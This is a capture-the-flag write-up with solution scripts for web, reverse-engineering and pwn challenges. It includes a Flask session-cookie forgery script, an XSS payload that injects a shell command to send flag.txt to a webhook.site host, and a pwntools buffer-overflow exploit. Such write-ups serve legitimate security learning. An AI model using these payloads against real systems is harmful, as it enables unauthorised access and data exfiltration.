

## Web
### giraffe notes
The code ban HTTP-X-Forwarded-For header, but we can use X-Forwarded-Host header to bypass it.

### Impersonate

First, I get `server_start_time` by get the respone from /status page. Then, I use [flask-unsign](https://github.com/Paradoxis/Flask-Unsign) to generate a cookie with `is_admin` set to `True` and `username` set to `administrator`. Then, I send a request to the admin page with this cookie to get the flag.


Code exploit: 
```python
import os, requests
from datetime import datetime, timedelta
import hashlib
import subprocess
res = requests.get('http://chal.competitivecyber.club:9999/status')
server_up_time_str = res.content.split(b'Server uptime: ')[1].split(b'<br>')[0].decode()
server_time_str = res.content.split(b'Server time: ')[1].decode()
uptime_parts = server_up_time_str.split(':')
server_up_time = timedelta(hours=int(uptime_parts[0]), minutes=int(uptime_parts[1]), seconds=int(uptime_parts[2]))
server_time = datetime.strptime(server_time_str.strip(), '%Y-%m-%d %H:%M:%S')
server_start_time = server_time - server_up_time

print("Server start time:", server_start_time)
server_start_str = server_start_time.strftime('%Y%m%d%H%M%S')
secure_key = hashlib.sha256(f'secret_key_{server_start_str}'.encode()).hexdigest()
cmd_out = subprocess.check_output(['flask-unsign', '--sign', '--cookie', "{'is_admin': True, 'username': 'administrator'}", '--secret', secure_key])

cookie = {'session' : cmd_out.decode().rstrip()}
response = requests.get('http://chal.competitivecyber.club:9999/admin', cookies=cookie)

print(response.text)
```


### Open Seasame


The server has a XSS vulnerability in `/api/stats/<id>` because the Content-Type header is not set, so the browser will render the response as HTML. I inject script to  `username` params and create id with this username on `/api/stats` page. After getting that id, send this url to bot. The bot will visit this url and execute the script.

Injected script:
```javascript
<script>fetch('/api/cal?modifier=;curl https://webhook.site/8f530448-4e2b-4697-909b-9b9a9721c8c0?$(cat flag.txt)')</script>
```

## Reverse

### Revioli
```python
from base64 import b64decode, b64encode
import secrets

flipFlops = lambda x: chr(ord(x) - 1)
s="Mwahahaha you will nOcmu{9gtufever crack into my passMmQg8G0eCXWi3MY9QfZ0NjCrXhzJEj50fumttU0ympword, i'll even give you the key and the executable:::: Zfo5ibyl6t7WYtr2voUEZ0nSAJeWMcN3Qe3/+MLXoKL/p59K3jgV"


fourth = "Ocmu{9gtuf"+ "MmQg8G0eCXWi3MY9QfZ0NjCrXhzJEj50fumttU0ymp"
bittysEnc = "Zfo5ibyl6t7WYtr2voUEZ0nSAJeWMcN3Qe3/+MLXoKL/p59K3jgV"

bittys = b64decode(bittysEnc)

third = ""
for each in fourth:
    third += flipFlops(each)

second = b64decode(third)
onePointFive = int.from_bytes(second, "big")
first = onePointFive ^ int.from_bytes(bittys, "big")
print(first.to_bytes(len(second), "big"))

```

### Packed Full Of Surprises
First, using `upx` to unpack. The unpacked code is AES-EFB encryption.
```python
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import struct

def decrypt_file(input_file, output_file, key, iv):
    # Create AES cipher object in CFB mode
    cipher = AES.new(key, AES.MODE_CFB, iv=iv, segment_size=128)
    
    with open(input_file, 'rb') as infile, open(output_file, 'wb') as outfile:
        while True:
            chunk = infile.read(16)  # Read in 16-byte chunks
            if len(chunk) == 0:
                break
            decrypted_chunk = cipher.decrypt(chunk)
            outfile.write(decrypted_chunk)

# Key and IV from the C code
key = struct.pack('<QQQQ', 0xEFCDAB8967452301, 0xFEDCBA9876543210, 0x8796A5B4C3D2E1F0, 0xF1E2D3C4B5A6978)
iv = struct.pack('<QQ', 0x706050403020100, 0xF0E0D0C0B0A0908)

# Decrypt the file
decrypt_file('flag.txt.enc', 'flag_decrypted.txt', key, iv)

print("Decryption complete. Check 'flag_decrypted.txt' for the result.")
```

## Pwn
### Not So Shrimple Is It 
```python
from pwn import *
from pwn import p64
r = remote('chal.competitivecyber.club',8884)
# r = process('./shrimple')
r.sendline(b'a'*43+b'\0')
r.sendline(b'o'*42+b'\0')

r.sendline(b'a'*38+b'\x82\x12\x40\0')
r.interactive()

```

